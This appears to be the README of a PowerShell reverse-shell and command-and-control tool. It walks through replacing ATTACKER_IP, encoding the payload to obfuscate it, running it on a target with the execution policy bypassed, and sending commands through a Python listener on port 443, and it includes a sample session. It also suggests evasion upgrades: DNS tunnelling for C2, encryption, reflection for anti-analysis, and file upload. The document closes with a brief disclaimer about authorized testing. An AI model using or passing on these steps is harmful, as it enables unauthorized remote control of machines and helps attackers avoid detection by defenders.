 ### Deployment Steps
1. **Prepare Payload**:
   - Edit `payload.ps1`: Replace `"ATTACKER_IP"` with your public/external IP.
   - Optionally obfuscate the script (e.g., encode as base64 and run with `powershell -EncodedCommand`).

2. **Start Listener**:
   - Run `python server.py` on your machine.
   - It will listen and prompt for commands.

3. **Execute on Target**:
   - Transfer and run `payload.ps1` (e.g., `powershell -ExecutionPolicy Bypass -File payload.ps1`).
   - The script starts the loop immediately.

4. **Interact**:
   - Wait for the first connection (up to ~100 seconds).
   - Enter commands like `ipconfig`, `net user`, or `Invoke-WebRequest -Uri http://example.com`.
   - View formatted output on the server.

5. **Cleanup**:
   - Kill the PowerShell process on the target (e.g., via Task Manager or `Stop-Process`).
   - Stop the server with Ctrl+C.

### Example Session
```
Listening on 0.0.0.0:443 ...
Waiting for client to connect (one command per connection)...
[+] Connected by ('192.168.1.100', 12345)
Shell> whoami
--- Command: whoami ---
target\user

--- End (1 lines) ---

[*] Command handled — connection closed by server or client.

Waiting for client to connect (one command per connection)...
```

## Limitations and Improvements
- **Single Command per Connect**: Limits to one-off commands; for interactive shells, extend to a loop (but increases detection risk via longer sockets).
- **No Encryption**: Plain TCP; add TLS (e.g., via stunnel or .NET's `SslStream`) for obfuscation.
- **Error Handling**: Basic; client doesn't retry failed executes. Enhance `Exec` for better stderr parsing or add try-catch for logging.
- **Platform**: Client is Windows-only (C#/PowerShell); server is cross-platform.
- **Improvements**:
  - Integrate beaconing payloads (e.g., upload files via `System.Net.WebClient`).
  - Use DNS for C2 to evade firewalls (e.g., TXT records for cmds).
  - Obfuscate C# code or use reflection for anti-analysis (e.g., `MethodInfo.Invoke`).

## Legal and Ethical Notes
This code is provided for defensive security research and authorized testing. Always obtain explicit permission before testing on systems you do not own. Misuse can lead to legal consequences under laws like the Computer Fraud and Abuse Act (CFAA).

## Author
Kur0Sh1ro

